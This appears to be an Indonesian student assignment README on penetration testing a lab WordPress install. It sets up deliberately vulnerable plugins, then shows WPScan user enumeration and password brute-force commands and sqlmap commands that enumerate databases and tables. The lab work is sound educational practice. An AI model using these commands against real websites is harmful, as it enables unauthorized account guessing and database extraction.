



# TUGAS 2 PKSJ Uji Penetrasi

## A. Pendahuluan

#### Penjelasan Tugas

* Install Wordpress pada sebuah virtual OS
* Install plugin yang vulnerable terhadap SQL injection: Video Player 1.5.16, LeagueManager 3.9.11, dll.
* Install/gunakan tool untuk uji SQL injection pada Wordpress: WPScan, sqlmap, dll.


**Anggota Kelompok**

| NRP         | Nama                 |
|-------------|----------------------|
| 5113100006  | Aldhiaz Fathra Daiva |
| 5113100119  | Rezky Budi Prasetyo  |
| 5113100174  | Armirara Refa        |


## B. Dasar Teori

**1. OS yang digunakan**

* **Kali Linux** adalah salah satu distribusi Linux tingkat lanjut untuk uji penetrasi dan audit keamanan, pembangunan kembali BackTrack Linux secara sempurna,  mengikuti sepenuhnya kepada standar pengembangan Debian. ([sumber](http://id.docs.kali.org/introduction-id/apa-itu-kali-linux))

* **Ubuntu Server** adalah ubuntu yang didesain untuk di install di server. Perbedaan mendasar, di Ubuntu Server tidak tersedia GUI. Jika anda menggunakan ubuntu server artinya anda harus bekerja dengan perintah perintah di layar hitam ayng sering disebut konsole. Jika anda datang dari windows, maka tampilan ubuntu server seperti DOS. ([sumber](http://www.candra.web.id/mengenal-ubuntu-server/))


**2. WordPress dan plugin yang diinstall**

* **WordPress** adalah *content management system* (CMS) *open source* berbasis PHP dan MySQL yang diinstall pada web server, yaitu sebagai bagian dari Internet hosting service (WordPress.com) atau sebagai host nya itu sendiri (WordPress.org). Pada WordPress.org, komputer lokal dikonfigurasikan untuk berperan sebagai web server hosting WordPress untuk tujuan uji coba atau belajar. ([sumber](https://en.m.wikipedia.org/wiki/WordPress))

* **Video Player 1.5.16** adalah plugin video pada WordPress yang memungkinkan pengguna untuk menambahkan video pada websitenya. ([sumber](https://wordpress.org/plugins/player/))

* **LeagueManager 3.9.1.1** adalah plugin WordPress untuk mengatur dan menampilkan liga olahraga pada halaman blog. ([sumber](https://wordpress.org/plugins/leaguemanager/))

* **CP Reservation Calendar 1.1.6** adalah plugin pemesanan tanggal kalender yang memungkinkan memilih tanggal - yaitu untuk *check-in* dan *check-out* - untuk reservasi. ([sumber](https://wordpress.org/plugins/cp-reservation-calendar/))


**3. Tools yang digunakan**

* **WPScan** adalah *tools* yang ditulis dengan ruby untuk meninjau celah keamanan pada WordPress, mampu mendeteksi celah keamanan yang umum juga mendaftar semua plugin yang digunakan pada WordPress. ([sumber](http://kali4hackers.blogspot.com/2013/05/wpscan-in-kali-linux-wpscan-is.html?m=1))

* **Sqlmap** adalah *tools open source* untuk uji coba penetrasi yang mengotomasi proses mendeteksi dan mengeksploitasi kelemahan pada SQL injection dan mengambil alih database server. ([sumber](http://www.kalitutorials.net/2014/03/hacking-website-with-sqlmap-in-kali.html?m=1))


## C. Penjelasan Instalasi
**1. Install Apache**
pertama kali kami melakukan penginstalan apache pada ubuntu server dengan command dibawah
```
$ sudo apt-get install apache2 apache2-utils 
```
Selanjutnya untuk menjalan kan apache menggunakan command berikut ini
```
$ sudo systemctl enable apache2
$ sudo systemctl start apache2
```
Selanjut buka pada browser client(kali linux) dan masukan ip ubuntu server untuk melihat apache yang sudah berjalan


**2. Install Mysql**
Selanjutnya kami melakukan penginstalan mysql dengan command berikut ini
```
$ sudo apt-get install mysql-client mysql-server
```
Selanjutnya menjalan commend ini
```
$ sudo mysql_secure_installation
```

**3. Install PHP**


## D. Uji Penetrasi
**1. Uji penetrasi dengan wpscan**
Untuk uji penestasi pertama kita melakukan menggunakan wp scan untuk mengecek plugin apa saja yang digunakan pada ubuntuk server uji penetrasi dilakukan pada kali linux
```
wpscan --url localhost/wordpress
```


Selanjutnya mengecek username menggunakan wpscan dengan command dibawah
```
wpscan --url localhost/wordpress --enumerate u
```

Selanjutnya mengecek Password menggunakan wpscan dengan command dibawah
```
wpscan --url localhost/wordpress --wordlist ~/passlist.txt --thread 10
```


**2. Uji penetrasi dengan sqlmap**
Selanjutnya kami mencoba uji penetrasi menggunakan sqlmap pada plugin leaguemanager
```
sqlmap --url "http://192.168.159.130/wp" --level 5 --risk 3 --dbms mysql
```
dari command ini kita mendapatkan OS, Webserver dan versi dbms yang diguankan

```
sqlmap --url "http://192.168.159.130/wp" --level 5 --risk 3 --dbms mysql --dbs
```
dari command ini kita mendapat database yang terdapat pada target penetrasi

```
sqlmap --url "http://192.168.159.130/wp" --level 5 --risk 3 --dbms mysql -D wordpress --tables
```
dari command ini kita mendapatkan tabel apa saja yang terdapat pada wordpress


## E. Kesimpulan dan Saran
